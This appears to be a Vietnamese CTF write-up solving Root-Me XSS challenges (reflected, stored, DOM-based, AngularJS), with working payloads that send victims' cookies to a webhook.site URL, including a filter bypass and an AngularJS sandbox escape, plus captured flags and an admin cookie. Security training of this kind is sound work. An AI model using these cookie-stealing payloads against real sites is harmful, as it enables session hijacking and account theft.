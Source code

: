 ```
Rootme:
XSS Reflected
XSS-Stored1
XSS-DOM Based introduction
XSS DOM based-AngularJS
XSS DOM Based-Eval
XSS-Stored2
Webhacking.kr:
Baby
Pro
```

# Rootme:
## XSS Reflected:
**Description**:`Find a way to steal the administrator’s cookie.` </br>
`Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.`

![image](https://user-images.githubusercontent.com/92881216/223759750-e2d8ceda-23c2-45b4-8594-67202cd35d59.png)

Dạo 1 vòng web em dễ dang tìm được input để inject : `http://challenge01.root-me.org/web-client/ch26/?p=home`. Đó là biến p được gán trên URL. Sau đó em thử nhập 1 số giá trị khác. Khi em nhập `abc` và check source code:

![image](https://user-images.githubusercontent.com/92881216/223760976-75c80c1e-ccf9-4439-9dd3-261963a80d13.png)

![image](https://user-images.githubusercontent.com/92881216/223761390-41b496cb-0603-4967-8240-04568ce9780e.png)

Như vậy đây có thể là chỗ xảy ra XSS và có chức năng report to admin. Mục tiêu bây giờ là phải tìm cách chèn và thực thi được script.

Để ý với giá trị `abc` được nhập thì html được trả về là `<a href="?p=abc">abc</a>`. Nhập tiếp với payload đơn giản `<h1>abc</h1>`, em check source thì được `<p>The page <a href='?p=&lt;h1&gt;abc&lt;/h1&gt;'>&lt;h1&gt;abc&lt;/h1&gt;</a> could not be found.</p>` như vậy ký tự `<`,`>` đã được mã hóa html. Tiếp tục em test với các ký tự khác và biết được `"` cũng bị mã hóa html còn các ký tự như `(`,`)`,`'`,`;` thì không.<br> 
Các payload nhập vào được đưa vào giá trị của attribute `href` nên đây có thể khai thác bằng cách bằng cách escape attribute đó để chèn script độc hại phía sau. Đọc lại mô tả của bài này : `Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.`, em liên tưởng đến việc dùng các event để thực thi script. Và do `'`, `(`, `)` không bị mã hóa nên em thử luôn với payload : `' onmouseover=alert(1) '`, sau đó di chuột vào thì hàm `alert(1)` được thực thi:

![image](https://user-images.githubusercontent.com/92881216/223768238-06c9bb84-d001-4c76-8da1-c740cd746b83.png)

Em tiếp tục viết script để steal cookie và dùng `webhook.site` để xem request:
```
' onmouseover='document.location="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c="+document.cookie' '
```
Nhưng nhận ra bị filter mất dấu cộng nên phải dùng `concat()` và nối chuỗi:
```
' onmouseover='document.location="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=".concat(document.cookie)' '
```
Gửi report cho admin và chờ kết quả:
![image](https://user-images.githubusercontent.com/92881216/223775467-adec68c4-1cfd-42ae-823d-caf0db49f3ff.png)

> `flag=r3fL3ct3D_XsS_fTw`

## XSS-Stored1
**Description:** `Steal the administrator session cookie and use it to validate this chall.`
![image](https://user-images.githubusercontent.com/92881216/223778497-ca220bf7-d02a-496b-9bda-7ac543c3d7a0.png)

Nhìn qua web này có chức năng lưu trữ tin nhắn mình nhập lên:

![image](https://user-images.githubusercontent.com/92881216/223778828-45ae7220-aae7-42af-a33f-587556be73fa.png)

Nhập sơ qua 1 số payload `<h1>abc</h1>` và nhận thấy phần `messenger` bị xss :
![image](https://user-images.githubusercontent.com/92881216/223779206-19d67996-cab2-4323-8a40-cbc6222cd379.png)
Nhập tiếp với payload: `<script>alert(1)</script>`:
![image](https://user-images.githubusercontent.com/92881216/223779378-29d464e1-a754-4386-8771-0c2f616c6a7a.png)
Như vậy web đã thực thi `alert(1)` mà không qua filter gì. Sau đó em nhập thẳng payload:
```
<script>document.location="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=".concat(document.cookie)</script>
```
Chờ 1 lúc nhận được:
![image](https://user-images.githubusercontent.com/92881216/223781330-9dfddad1-95df-47a2-aaf3-62ce92fa4264.png)

> `ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`

## XSS-DOM Based introduction
**Description:** `Steal the admin’s session cookie.`

![image](https://user-images.githubusercontent.com/92881216/223781835-2bcdb489-ceec-4146-abaf-c2dc39109106.png)

Bài toán ở đây là nhập vào 1 số và đây là chỗ có thể xss. Em thử nhập vào số bất kỳ và xem source:

![image](https://user-images.githubusercontent.com/92881216/223786727-287b16cd-7464-41b9-85b8-8458bb364892.png)

Khi em nhập vào 1 và kết quả `var number = '1';`. `1` được truyền vào biến number và kẹp giữa 2 dấu nháy đơn `'`. <br>
Em nghĩ ngay đến việc dùng nháy đơn để escape ra rồi dùng `;` kết thúc câu lệnh gán đó đồng thời viết tiếp `alert(1);` để test và dùng `//` để comment phần thừa phía sau. Payload: `'; alert(1); //` và đúng như dự đoán web đã thực thi `alert(1)`:

![image](https://user-images.githubusercontent.com/92881216/223787855-0543d1f1-cef1-4b9f-bb34-c219fee1a5bf.png)

Em tiếp tục dùng script để lấy cookie bằng payload: 
```
';document.location="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=".concat(document.cookie);//
```

Và gửi URL trong phần contact: `http://challenge01.root-me.org/web-client/ch32/index.php?number=';document.location="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=".concat(document.cookie);//`

Kết quả: 
![image](https://user-images.githubusercontent.com/92881216/223789126-7828c265-c8fc-4651-a3e6-85d73a600f89.png)

> `flag=rootme{XSS_D0M_BaSed_InTr0}`




## XSS DOM based-AngularJS:

```
{{constructor.constructor("document.location=`https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=`.concat(document.cookie)")()}}
```
![image](https://user-images.githubusercontent.com/92881216/223808226-8e80ab23-1efd-4dfd-87a7-316a5b96e564.png)

> `flag=rootme{@NGu1@R_J$_1$_C001}`




